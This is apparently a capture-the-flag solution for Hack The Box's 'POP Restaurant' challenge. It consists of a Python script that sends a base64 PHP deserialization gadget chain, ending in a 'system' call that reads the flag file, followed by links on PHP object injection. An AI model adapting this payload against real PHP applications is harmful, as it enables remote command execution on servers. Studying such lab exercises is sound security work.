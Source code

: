 ```bash
python3 exploit.py
```
```bash
import re
import requests

url = "http://94.237.123.87:39567/order.php"

headers = {
    "Cookie": "PHPSESSID=df0b22519244ec847030ef5cebab356c"
}

data = {
    "data": "Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO086OToiU3BhZ2hldHRpIjozOntzOjU6InNhdWNlIjtPOjg6IkljZUNyZWFtIjoyOntzOjc6ImZsYXZvcnMiO086MjE6IlxIZWxwZXJzXEFycmF5SGVscGVycyI6NDp7aTowO2k6MDtpOjE7YToxOntpOjA7czoyNjoiY2F0IC9wQmhmTUJRbHU5dVRfZmxhZy50eHQiO31pOjI7YToxOntzOjg6ImNhbGxiYWNrIjtzOjY6InN5c3RlbSI7fWk6MztOO31zOjc6InRvcHBpbmciO047fXM6Nzoibm9vZGxlcyI7TjtzOjc6InBvcnRpb24iO047fX0K"
}

response = requests.post(url, headers=headers, data=data, allow_redirects=False)
match = re.findall(r"HTB\{.*?\}", response.text)
if response.status_code == 302:
    if match:
        print(f"[+] FLAG FOUND: {match}")
    else:
        print(response.text)
        print("[-] No HTB flag found in response.")
else:
    print("[-] Request failed, check the URL or session.")
```


### Ctf
- https://app.hackthebox.com/challenges/POP%2520Restaurant
### Reference
- https://vickieli.dev/insecure%20deserialization/exploiting-php-deserialization/
- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
- https://medium.com/@abdallahomaratya0/pop-restaurant-challenge-htb-b10989577596



